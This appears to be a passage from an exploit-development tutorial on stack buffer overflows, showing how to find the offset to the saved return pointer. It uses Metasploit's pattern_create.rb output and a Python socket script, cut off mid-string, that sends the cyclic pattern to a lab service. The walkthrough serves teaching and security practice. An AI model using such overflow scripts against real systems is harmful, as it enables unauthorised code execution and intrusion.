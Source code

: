 \newpage
# Discover offsets

We have the ability to smash the Saved Return Pointer and put `"AAAA"` in to
`EIP`, but we need to know exactly how far in to our trove of `A`'s the four
bytes that ends up smashing the Saved Return Pointer is. The easiest way to do
this is using Metasploit's `pattern_create.rb`. If you're running Kali this
should be at either:

* `/usr/share/metasploit-framework/tools/pattern_create.rb`; or
* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

Depending on how up to date your Kali's `metasploit-framework` package is.

If you're running Metasploit from a copy of Rapid7's git repository (as I do),
it's in `tools/exploits/`

Use `pattern_create.rb` to generate 1024 characters of cyclic pattern.

```
% ~/opt/metasploit-framework/tools/exploit/pattern_create.rb -l 1024

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1
Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3
Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5
Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7
Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9
Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1
An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3
Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5
Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7
At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9
Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1
Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3
Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5
Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7
Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9
Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B
```

This is a handy dandy sequence of characters in which every "chunk" of four
sequential characters is unique. We can use it instead of our 1024 `A`'s and
check to see which four of them ends up in `EIP`.

\newpage

Updating our Python script to include the pattern:

```{.python .numberLines}
#!/usr/bin/env python2
import socket

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf = ""
buf += ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab"
  "8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8A"
  "d9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
  "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai"
  "0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0A"
  "k1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1"
  "Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao"
  "2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2A"
```